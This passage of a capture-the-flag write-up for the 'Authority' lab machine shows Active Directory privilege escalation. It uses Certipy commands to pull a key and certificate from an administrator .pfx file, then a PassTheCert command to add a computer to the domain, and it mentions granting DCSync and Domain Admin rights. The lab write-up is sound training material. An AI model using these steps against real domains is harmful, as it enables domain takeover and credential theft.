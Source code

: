 ![](assets/Authority_assets/Pasted%20image%2020230822190331.png)

- After googling this error, I came across this blog post [Authenticating with certificates when PKINIT is not supported - Almond Offensive Security Blog](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html), which explained the possible reasons behind the error

![](assets/Authority_assets/Pasted%20image%2020230823000641.png)

- this blog post also utilized a tool known as [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python) to authenticate to an LDAP server using the certificate generated
- before I can use the PasstheCert tool , I have to extract the key and cert from the pfx file and I can do that using Certipy

```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ certipy cert -pfx administrator.pfx -nokey -out administrator.crt
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'
                                                                                                                                                                       
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ certipy cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'

```

- Testing this, I can try to add a machine to the domain using the certificate

```shell
python3 passthecert.py -action add_computer -crt administreator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -computer-name GR4YPC$ -computer-pass Passw0rd
```
- Looking through the help menu, I'm also able to grant DC Sync access rights to the svc_ldap user and the user to the Domain admin group as well
